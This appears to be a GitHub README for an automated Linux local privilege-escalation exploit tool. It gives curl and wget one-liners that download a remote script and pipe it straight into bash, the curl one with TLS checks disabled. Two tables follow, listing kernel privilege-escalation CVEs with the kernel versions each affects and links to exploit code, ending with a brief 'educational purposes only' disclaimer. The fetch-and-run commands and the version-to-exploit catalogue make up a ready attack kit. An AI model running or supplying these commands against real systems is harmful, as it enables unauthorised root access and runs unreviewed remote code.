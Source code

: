 
<div align="center"><h1>Auto Local Privilege Escalation Exploit</h1></h1></div>
<br>

<div align="center">
  
![licence](https://img.shields.io/badge/LICENE-GPL2.0-ebcb8b?style=flat-square)
![version](https://img.shields.io/badge/VERSION-1.0.2-a3be8c?style=flat-square)
  
 </div>
<br>

<div align="center"><h1>Requirements:</h1></div>

<samp>
  
* GIT
  
* WGET
  
* GCC
  
</samp>

<div align="center"><h1>Usage</h1></div>


<div align="center"><h1>Curl</h1></div>

```
root@HaxorSec:~# bash -c "$(curl -fsSL https://raw.githubusercontent.com/vlain1337/auto-lpe/refs/heads/main/autolpe.sh -k)"	
```

<div align="center"><h1>Wget</h1></div>

```
root@HaxorSec:~# bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/vlain1337/auto-lpe/refs/heads/main/autolpe.sh)"
```

<div align="center"><h1>Read this</h1></div>

<samp>
<div align="center"><h1> TOP EXPLOIT</h1></div>

| CVE-ID                                      | LINK REFERENCE      |
| ------------------------------------------- | ------------------------------- |
| [CVE-2021-4034]       | https://github.com/ly4k/PwnKit  |
| [CVE-2022-2588]       | https://github.com/Markakd/CVE-2022-2588/ |
| [CVE-2021-3493]       | https://github.com/briskets/CVE-2021-3493                  |
| [CVE-2023-2640] | https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629                  |
| [CVE-2022-0847] | https://github.com/n3rada/DirtyPipe             |

<div align="center"><h1> EXPLOIT LIST</h1></div>

| CVE-ID                                                    | Possible affected versions                                                            |
| --------------------------------------------------------- | ------------------------------------------------------------------------------------- |
| [CVE-2022-34918](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-34918)                   | Linux kernel < 5.18.11                                                                |
| [CVE-2022-32250](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-32250)                   | Linux kernel < 5.18.1                                                                 |
| [CVE-2022-27666](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-27666)                   | Linux kernel < 5.17-rc8                                                               |
| [CVE-2022-25636](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-25636)                   | Linux kernel 5.4-5.6.10                                                               |
| [CVE-2022-23222](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-23222)                   | Linux kernel 5.8-5.16                                                                 |
| [CVE-2022-2639](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2639)                     | Linux kernel 3.13-5.18                                                                |
| [CVE-2022-2602](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2602)                     | Linux kernel < 6.1-rc1                                                                |
| [CVE-2022-2588](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2588)                     | Linux kernel < 5.19                                                                   |
| [CVE-2022-2586](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2586)                     | Linux kernel > 3.16-rc1                                                               |
| [CVE-2022-2585](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2585)                     | Linux kernel > 5.7-rc1                                                                |
| [CVE-2022-1015](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-1015)                     | Linux kernel 5.12-5.17                                                                |
| [CVE-2022-0995](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0995)                     | Linux kernel 5.8-5.17-rc7                                                             |
| [CVE-2022-0847 (DirtyPipe)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0847)         | Linux kernel 5.8-5.16.11                                                              |
| [CVE-2022-0185](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0185)                     | Linux kernel 5.1-rc1-5.17-rc1                                                         |
| [CVE-2021-43267](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-43267)                   | Linux kernel 5.10-rc1-5.15                                                            |
| [CVE-2021-42008](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-42008)                   | Linux kernel < 5.13.13                                                                |
| [CVE-2021-41073](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-41073)                   | Linux kernel 5.10-5.14.6                                                              |
| [CVE-2021-31440](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-31440)                   | Linux kernel 5.7-5.11.15                                                              |
| [CVE-2021-27365](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-27365)                   | Linux kernel <= 5.11.3                                                                |
| [CVE-2021-22555](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-22555)                   | Linux kernel 2.6.19-5.12-rc6                                                          |
| [CVE-2021-4154](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-4154)                     | Linux kernel < 5.3.18                                                                 |
| [CVE-2021-3493](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-3493)                     | Ubuntu 20.10、Ubuntu 20.04 LTS、Ubuntu 18.04 LTS、Ubuntu 16.04 LTS、Ubuntu 14.04 ESM  |
| [CVE-2021-3490](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-3490)                     | Linux kernel < 5.13-rc4                                                               |
| [CVE-2020-27194](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2020/CVE-2020-27194)                   | Linux kernel 5.7-5.8.14                                                               |
| [CVE-2020-8835](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2020/CVE-2020-8835)                     | Linux kernel 5.4.7-5.4.29, 5.5-5.5.14, 5.6                                            |
| [CVE-2019-15666](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2019/CVE-2019-15666)                   | Linux kernel < 5.0.19                                                                 |
| [CVE-2019-13272](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2019/CVE-2019-13272)                   | Linux kernel 4.10-5.1.17                                                              |
| [CVE-2018-18955](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-18955)                   | Linux kernel 4.15-4.19.2                                                              |
| [CVE-2018-17182](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-17182)                   | Linux kernel 3.5-4.18.8                                                               |
| [CVE-2018-5333](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-5333)                     | Linux kernel 4.4-4.14.13                                                              |
| [CVE-2017-1000253](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-1000253)               | Linux kernel 3.2-4.13                                                                 |
| [CVE-2017-16995](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-16995)                   | Linux kernel 4.4-4.14.8                                                               |
| [CVE-2017-16939](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-16939)                   | Linux kernel < 4.13.11                                                                |
| [CVE-2017-11176](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-11176)                   | Linux kernel <= 4.11.9                                                                |
| [CVE-2017-8890](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-8890)                     | Linux kernel 2.5.69-4.11                                                              |
| [CVE-2017-7308](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-7308)                     | Linux kernel 3.2-4.10.6                                                               |
| [CVE-2017-6074](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-6074)                     | Linux kernel 2.6.18-4.9.11                                                            |
| [CVE-2017-5123](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-5123)                     | Linux kernel 4.12-4.13                                                                |
| [CVE-2016-9793](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-9793)                     | Linux kernel 3.11-4.8.14                                                              |
| [CVE-2016-8655](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-8655)                     | Linux kernel 4.4.0-4.9                                                                |
| [CVE-2016-5195 (DirtyCow)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-5195)          | Linux kernel 2.6.22-4.8.3                                                             |
| [CVE-2016-4997](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-4997)                     | Linux kernel <= 4.6.3                                                                 |
| [CVE-2016-4557](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-4557)                     | Linux kernel 4.4-4.5.5                                                                |
| [CVE-2016-2384](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-2384)                     | Linux kernel 3.0.0-4.4.8                                                              |
| [CVE-2016-0728 (pp_key)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-0728)            | Linux kernel 3.8.0-3.8.9, 3.9-3.13, 3.4.0-3.13.0, 3.8.5-3.8.9, 3.10.6, 3.9.6, 3.13.1  |
| [CVE-2015-8660](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-8660)                     | Linux kernel 3.0.0-4.3.3                                                              |
| [CVE-2015-8550](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-8550)                     | Linux kernel 4.19.65                                                                  |
| [CVE-2015-1328 (ofs)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-1328)               | Linux kernel 3.13, 3.16.0, 3.19.0                                                     |
| [CVE-2014-9322](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-9322)                     | Linux kernel 3.0.1-3.17.5                                                             |
| [CVE-2014-4699](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-4699)                     | Linux kernel 3.0.1-3.15.4                                                             |
| [CVE-2014-4014](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-4014)                     | Linux kernel 3.0.1-3.14.8                                                             |
| [CVE-2014-3153](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-3153)                     | Linux kernel 3.3.2-3.3.5, 3.0.1-3.0.5, 2.6.32-2.6.39, 2.6.4-2.6.9,3.2.2, 3.0.18       |
| [CVE-2014-0196 (rawmodePTY)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-0196)        | Linux kernel 2.6.31-2.6.39, 3.14, 3.15                                                |
| [CVE-2014-0038 (timeoutpwn)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-0038)        | Linux kernel 3.4-3.13, 3.4.0-3.8.0, 3.8.5, 3.8.6, 3.8.9, 3.9.0, 3.9.6, 3.10.0-3.13.0  |
| [CVE-2013-2094 (perf_swevent)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-2094)      | Linux kernel 3.0.0-3.0.6, 3.1.0, 3.2, 3.3, 3.4.0-3.4.9, 3.5, 3.6, 3.7, 3.8.0-3.8.9    |
| [CVE-2013-1959](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1959)                     | Linux kernel 3.0.1-3.8.9                                                              |
| [CVE-2013-1858 (clown-newuser)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1858)     | Linux kernel 3.8-3.8.3                                                                |
| [CVE-2013-1763](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1763)                     | Linux kernel 3.3-3.8                                                                  |
| [CVE-2013-0268 (msr)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-0268)               | Linux kernel 2.6.18-2.6.39, 3.0.0-3.0.6, 3.1.0, 3.2, 3.3, 3.4, 3.5, 3.6, 3.7.0, 3.7.6 |
| [CVE-2012-0056 (memodipper)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2012/CVE-2012-0056)        | Linux kernel 2.6.39, 3.0.0, 3.0.1, 3.0.2, 3.0.3, 3.0.4, 3.0.5, 3.0.6, 3.1.0           |
| [CVE-2010-4347](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4347)                     | Linux kernel 2.6.0-2.6.36                                                             |
| [CVE-2010-4258 (full-nelson)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4258)       | Linux kernel 2.6.31-2.6.37                                                            |
| [CVE-2010-4073 (half_nelson)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4073)       | Linux kernel 2.6.0-2.6.36                                                             |
| [CVE-2010-3904 (rds)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3904)               | Linux kernel 2.6.30-2.6.36                                                            |
| [CVE-2010-3301 (ptrace_kmod2)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3301)      | Linux kernel 2.6.26-2.6.34                                                            |
| [CVE-2010-3081 (video4linux)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3081)       | Linux kernel 2.6.0-2.6.33                                                             |
| [CVE-2010-2959 (can_bcm)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-2959)           | Linux kernel 2.6.18-2.6.36                                                            |
| [CVE-2010-1146 (reiserfs)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-1146)          | Linux kernel 2.6.18-2.6.34                                                            |
| [CVE-2009-3547 (pipe.c_32bit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-3547)      | Linux kernel 2.4.4-2.4.37, 2.6.15-2.6.31                                              |
| [CVE-2009-2698 (udp_sendmsg_32bit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-2698) | Linux kernel 2.6.1-2.6.19                                                             |
| [CVE-2009-2692 (sock_sendpage)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-2692)     | Linux kernel 2.4.4-2.4.37，2.6.0-2.6.30                                               |
| [CVE-2009-1337 (exit_notify)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-1337)       | Linux kernel 2.6.25-2.6.29                                                            |
| [CVE-2009-1185 (udev) ](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-1185)             | Linux kernel 2.6.25-2.6.29                                                            |
| [CVE-2008-4210 (ftrex)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-4210)             | Linux kernel 2.6.11-2.6.22                                                            |
| [CVE-2008-0900](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-0900)                     | Linux kernel 2.6.17-2.6.24.1                                                          |
| [CVE-2008-0600](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-0600)                     | Linux kernel 2.6.23, 2.6.24                                                           |
| [CVE-2006-3626 (h00lyshit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2006/CVE-2006-3626)         | Linux kernel 2.6.8, 2.6.10, 2.6.11, 2.6.12, 2.6.13, 2.6.14, 2.6.15, 2.6.16            |
| [CVE-2006-2451 (raptor_prctl)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2006/CVE-2006-2451)      | Linux kernel 2.6.13-2.6.17                                                            |
| [CVE-2005-1263](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2005/CVE-2005-1263)                     | Linux kernel 2.x.x-2.2.27-rc2, 2.4.x-2.4.31-pre1, 2.6.x-2.6.12-rc4                    |
| [CVE-2005-0736 (krad3)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2005/CVE-2005-0736)             | Linux kernel 2.6.5, 2.6.7, 2.6.8, 2.6.9, 2.6.10, 2.6.11                               |
| [CVE-2004-1235 (elflbl)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/CVE-2004-1235)            | Linux kernel 2.4.29                                                                   |
| [CVE-2004-0077 (mremap_pte) ](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/CVE-2004-0077)       | Linux kernel 2.4.20, 2.2.24, 2.4.25, 2.4.26, 2.4.27                                   |
| [CVE-N/A (caps_to_root)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/caps_to_root)             | Linux kernel 2.6.34, 2.6.35, 2.6.36                                                   |

</samp>

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository are not the author responsibility.

